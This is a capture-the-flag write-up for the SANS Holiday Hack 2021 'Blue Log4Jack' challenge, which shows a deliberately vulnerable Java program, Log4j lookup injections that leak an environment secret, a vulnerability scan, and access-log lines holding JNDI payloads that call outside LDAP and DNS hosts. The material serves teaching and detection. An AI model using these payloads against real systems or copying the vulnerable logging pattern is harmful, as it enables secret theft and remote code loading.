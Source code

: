 # Writeup for SANS Holiday Hack Challenge 2021 – Jack’s Back! featuring KringleCon 4: Calling Birds
## 14. Bonus! Blue Log4Jack
The objective is to demonstrate, patch and provide advice on the recent Log4Jack vulnerability.

### 14.0. Hints
**Log4j Talk** - *Bow Ninecandle*: “Prof. Qwerty Petabyte is giving [a lesson](https://youtu.be/OuYMPU3-0p4) about Apache Log4j.”  
**Log4j Search Script** - *Bow Ninecandle*: “Josh Wright's [simple checker script](https://gist.github.com/joswr1ght/a6badf9b0b148efadfccbf967fcc2b41) uses the power of regex to find vulnerable Log4j libraries!”  
**Log4j Remediation** - *Bow Ninecandle*: “[Clearing Log4j issues](https://nakedsecurity.sophos.com/2021/12/13/log4shell-explained-how-it-works-why-you-need-to-know-and-how-to-fix-it/) from systems.”  
**Log4J at Apache** - *Bow Ninecandle*: “Software by the [Apache Foundation](https://logging.apache.org/log4j/2.x/manual/lookups.html) runs on devices all over the internet”  

#### 14.1. Solution
The shell walks through the compilation and exploiting of the vulnerable `DisplayFilev2` java program:
```java
import java.io.*;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class DisplayFilev2 {
    static Logger logger = LogManager.getLogger(DisplayFilev2.class);
    public static void main(String[] args) throws Exception {
        String st;
        try {
            File file = new File(args[0]);
            BufferedReader br = new BufferedReader(new FileReader(file));

            while ((st = br.readLine()) != null)
                System.out.println(st);
        }
        catch (Exception e) {
            logger.error("Unable to read file " + args[0] + " (make sure you specify a valid file name).");
        }
    }
}
```

Below a local exploitation of the vulnerability:
```bash
elfu@33580ab650ea:~/vulnerable$ java DisplayFilev2 '${java:version}'
12:27:14.110 [main] ERROR DisplayFilev2 - Unable to read file Java version 1.8.0_312 (make sure you specify a valid file name).
elfu@33580ab650ea:~/vulnerable$ java DisplayFilev2 '${env:APISECRET}'
12:27:44.523 [main] ERROR DisplayFilev2 - Unable to read file pOFZFiWHjqKoQaRhNYyC (make sure you specify a valid file name).
```

The shell then uses `log4j-scan` to identify vulnerable java applications:
```bash
elfu@33580ab650ea:~/vulnerable$ log4j2-scan /var/www/solr/
Logpresso CVE-2021-44228 Vulnerability Scanner 2.2.0 (2021-12-18)
Scanning directory: /var/www/solr/ (without tmpfs, shm)
[*] Found CVE-2021-44228 (log4j 2.x) vulnerability in /var/www/solr/server/lib/ext/log4j-core-2.14.1.jar, log4j 2.14.1
[*] Found CVE-2021-44228 (log4j 2.x) vulnerability in /var/www/solr/contrib/prometheus-exporter/lib/log4j-core-2.14.1.jar, log4j 2.14.1

Scanned 102 directories and 1988 files
Found 2 vulnerable files
Found 0 potentially vulnerable files
Found 0 mitigated files
Completed in 0.34 seconds
```

Also it uses the script `logshell-search` to observe IOCs in `/var/log/www` logs:
```bash
elfu@33580ab650ea:~/vulnerable$ logshell-search.sh /var/log/www/
/var/log/www/access.log:10.26.4.27 - - [14/Dec/2021:11:21:14 +0000] "GET /solr/admin/cores?foo=${jndi:ldap://10.26.4.27:1389/Evil} HTTP/1.1" 200 1311 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:64.0) Gecko/20100101 Firefox/64.0"
/var/log/www/access.log:10.99.3.1 - - [08/Dec/2021:19:41:22 +0000] "GET /site.webmanifest HTTP/1.1" 304 0 "-" "${jndi:dns://10.99.3.43/NothingToSeeHere}"
/var/log/www/access.log:10.3.243.6 - - [08/Dec/2021:19:43:35 +0000] "GET / HTTP/1.1" 304 0 "-" "${jndi:ldap://10.3.243.6/DefinitelyLegitimate}"
```

---
## [2. Where in the World is Caramel Santiaigo?](README.md)
## [2.1. Side Challenge - Exif Metadata](README.md)
## [3. Thaw Frost Tower's Entrance](README.md)
## [3.1. Side Challenge - Grepping for Gold](README.md)
## [4. Slot Machine Investigation](README.md)
## [4.1. Side Challenge - Logic Munchers](README.md)
## [5. Strange USB Device](README.md)
## [5.1. Side Challenge - IPv6 Sandbox](README.md)
## [6. Shellcode Primer](README.md)
## [6.1. Side Challenge - Holiday Hero](README.md)
## [7. Printer Exploitation](README.md)
## [7.0. Description](README.md)
## [8. Kerberoasting on an Open Fire](README.md)
## [8.1. Side Challenge - HoHo … No](README.md)
## [9. Splunk!](README.md)
## [9.1. Side Challenge - Yara Analysis](README.md)
## [10. Now Hiring!](README.md)
## [10.1. Side Challenge - IMDS Exploration](README.md)
## [11. Customer Complaint Analysis](README.md)
## [11.1. Side Challenge - Strace Ltrace Retrace](README.md)
## [12. Frost Tower Website Checkup](README.md)
## [12.1. Side Challenge - The Elf C0de Python Edition](README.md)
## [13. FPGA Programming](README.md)
## [13.1. Side Challenge - Frostavator](README.md)
## [14. Bonus! Blue Log4Jack](README.md)
## [15. Bonus! Red Log4Jack](README.md)
---
## [0. windovo\\thedead> whoami](../README.md)
## [1. KringleCon Orientation](01.%20KringleCon%20Orientation/README.md)
## [16. That’s how Jack came from space](../README.md#16-thats-how-jack-came-from-space)
## [17. Narrative](../README.md#17-narrative)
## [18. Conclusions](../README.md#18-conclusions)